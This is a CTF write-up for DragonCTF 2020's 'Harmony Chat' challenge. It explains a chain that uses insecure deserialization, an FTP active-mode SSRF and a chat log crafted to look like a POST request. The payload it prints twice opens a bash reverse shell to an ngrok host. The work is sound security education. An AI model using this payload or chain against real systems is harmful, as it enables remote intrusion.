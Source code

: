 ```yaml
---
layout: post
title: "[DragonCTF 2020] Harmony Chat"
author: Vie
---
```


# TL;DR
1. RCE is achievable via insecure deserialization on ``/csp-report`` endpoint
2. Make a chatlog that looks exactly like a POST request to said endpoint, with a reverse-shell payload in it 
3. Use FTP on active mode to send chatlog to the application's HTTP server
4. reverse-shell. Profit. 


# Harmony Chat
If I told you that the simple act of exchanging messages in a chat app would lead to RCE and opening a reverse-shell, you'd think I went crazy. So why don't we discuss my descent into madness?

**Harmony Chat** was the first web challenge released on DragonCTF 2020. It was a chat app a la Discord, with the ability to register a new user, create a new channel, and invite other users to your channel.

![ImTalkingToMyself](/assets/images/dragonctf2020_harmonychat/harmonychatlogexample.png) 

You exchange messages just as any other chat app, and afterwards you can request for a log containing all the chat messages in that particular channel via HTTP or FTP. 

Requesting for the chatlog via HTTP also fires another POST request to the endpoint ``/csp-report`` which would deliver a report to the server if the chat logs had anything that violated said Content-Security-Policy. The source was provided for us so we could see how that whole interaction plays out locally. 

Requesting for the chatlog via FTP will prompt the application's FTP server to establish a data connection with you and send a file over that contained all your messages in the channel. 

```
vie: hello
vie: hi
vie: how are u today
```


Let's dive into that ``csp-report`` a bit more. It turns out that insecure-deserialization is possible via the application's use of the npm library ``javascript-serializer``. We could leverage how the serializer parses input to achieve RCE (Thanks to Robert Xiao for helping me get a payload that works :P):

![FTPCommunication](/assets/images/dragonctf2020_harmonychat/harmonyconsolelog.png) 

So RCE is achievable through a POST request to ``/csp-report``. We can use this knowledge to have the application deserialize a command to open a reverse-shell for us. One caveat though: 

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
```
The ``isLocal`` check occurs with every request sent to ``/csp-report`` - checking if the remote IP of the request was in the LAN. We obviously didn't have to worry about this check when we were hitting this endpoint _locally_, but on DragonCTF's server, we would fail this check. So what do we do? 

Let's take a look at the FTP server, which is intended to be used to send text file versions of the chat log to the user. Since the FTP connection stipulates to us the port we should connect to, the server is operating in "passive" mode FTP. Well, what's that? 

Turns out, FTP has 2 specific modes.

- Passive: where the server tells us where to connect to establish a data connection to.

- Active: where we the clients stipulate the IP and port for the server to connect and open a data connection. 

This can solve our ``isLocal`` problem: if we get their FTP server on their LAN to work in **active mode**, and establish a connection to the HTTP server also on their LAN, then we can make that POST request to ``/csp-report`` through the FTP server. This would bypass the ``isLocal`` check since it's their FTP server making that request, on our behalf. AKA - A powerful SSRF attack. 

Now, another problem: the FTP server only ever stores files of chatlogs, and it doesn't have write access, so our POST request is gonna have to be in the form of a chat log. Well, how do we do that? 

Observe how the chatlog file looks: it has the format ``DisplayName``:``message``. The ``:`` is added by the application. This is where I had the idea: if we registered "users" all with different names that matched the request header names and the request body name, we could have those users then communicate the rest of their values as "messages" - and when finished, the resulting chat log should look exactly like the POST request we want to send. 

NOTE: I did this manually. I know there's a way to automate this. I was up for over 24 hours solving this challenge. My brain was mush.

So, we just need to break our POST request by the first ``:``

```
POST /csp-report?: HTTP/1.1
Host: localhost:3380
Content-Length: 386
Content-Type: application/csp-report

{"csp-report": {"blocked-uri": "x", "document-uri": "X", "effective-directive": "X", "original-policy": "X", "referrer": "X", "status-code": "X", "violated-directive": "X", "source-file": {"toString": {"___js-to-json-class___": "Function", "json": "process.mainModule.require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/18843 0>&1'\", {stdio:\"inherit\"})"}}}}
```

And we get 5 "users": ``POST /csp-report?``, ``Host``, ``Content-Length``, ``Content-Type`` and ``{"csp-report"``. They will then each message the chat in order as so... 

![ThisShouldBeAutomated](/assets/images/dragonctf2020_harmonychat/chatlogsPOST.png) 


Do you see where I'm getting at with this? Now we need to download the associated chat log file, and we get:

```
POST /csp-report?: HTTP/1.1
Host: localhost:3380
Content-Length: 386
Content-Type: application/csp-report

{"csp-report": {"blocked-uri": "x", "document-uri": "X", "effective-directive": "X", "original-policy": "X", "referrer": "X", "status-code": "X", "violated-directive": "X", "source-file": {"toString": {"___js-to-json-class___": "Function", "json": "process.mainModule.require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/18843 0>&1'\", {stdio:\"inherit\"})"}}}}
```

EXACTLY the post request that we want (With a quick sidenote - the newline generated to seperate the request headers from the request body was achieved by sending an empty message to the channel via the console. Again, this was probably easier to do in a script). So now all that's left to do is to connect to the FTP server externally, and tell it to connect to the HTTP server in its LAN, then send over the file we just made above. 

![FTPCommunication](/assets/images/dragonctf2020_harmonychat/ftpcommunication.png) 

- The ``user`` command is expecting a uid of any user in the current session. We technically made 5, so any of their uids work.

- The ``pass`` command can be blank, as the implementation of the application said any password will be accepted. 

- The ``port`` command is what makes the FTP server operate in active mode. The command's arguments are the 4 bytes of the IP, then the 2 remaining values are the port number following this convention: p1, p2 where ``(p1 * 256) + p2`` = full port number. We want to connect to Harmony Chat's localhost at the HTTP server, which is at port 3380. 

- The ``retr`` command takes the name of a file (in this case, the name of the chatlog) and retrieves it, then sends it over the data connection it just established. If we got things right, then the FTP server would have sent our POST request to the HTTP server.

And when we check back in our ngrok instance, we see that we have indeed achieved a shell on harmony-chat-app's server :)

![HarmonyShell](/assets/images/dragonctf2020_harmonychat/harmonyshell.png) 

For a more comprehensive writeup, click [here](https://jamvie.net/posts/2020/11/dragonctf-2020-harmony-chat/)